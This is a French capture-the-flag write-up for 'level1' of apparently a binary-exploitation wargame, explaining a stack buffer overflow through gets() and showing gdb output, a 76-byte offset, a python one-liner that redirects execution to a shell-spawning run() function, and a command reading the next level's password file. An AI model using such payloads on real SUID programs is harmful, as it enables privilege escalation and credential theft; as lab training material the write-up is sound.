


# level1 - Stack Buffer Overflow

Le niveau nécessite l'exploitation d'un buffer overflow pour rediriger l'exécution vers une fonction `run()` qui exécute un shell.

## Analyse du Programme

**Structure de la Stack**
- La fonction `gets()` est utilisée sans vérification de taille
- Le buffer overflow permet de réécrire l'adresse de retour (saved EIP)
- L'adresse de `run()` est `0x8048444`
```nasm
(gdb) p run
$2 = {<text variable, no debug info>} 0x8048444 <run>
```
## Exploitation du Buffer Overflow

**Localisation de l'Adresse de Retour**
```bash
(gdb) i f
Stack level 0, frame at 0xbffff740:
eip = 0x8048481 in main; saved eip 0xb7e454d3
```

**Calcul de l'Offset**
- Utilisation d'un pattern cyclique pour trouver l'offset précis
- L'offset entre le début du buffer et EBP+4 est de 76 bytes





**Construction de l'Exploit**
```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

L'exploit fonctionne en:
1. Remplissant 76 bytes avec des "A"
2. Ajoutant l'adresse de `run()` en little-endian
3. Maintenant le shell ouvert avec `cat`

## Obtention du Flag
```bash
cat /home/user/level2/.pass
```

Cette méthode fonctionne car le programme est compilé avec le bit SUID, permettant l'exécution du shell avec les privilèges de level2.

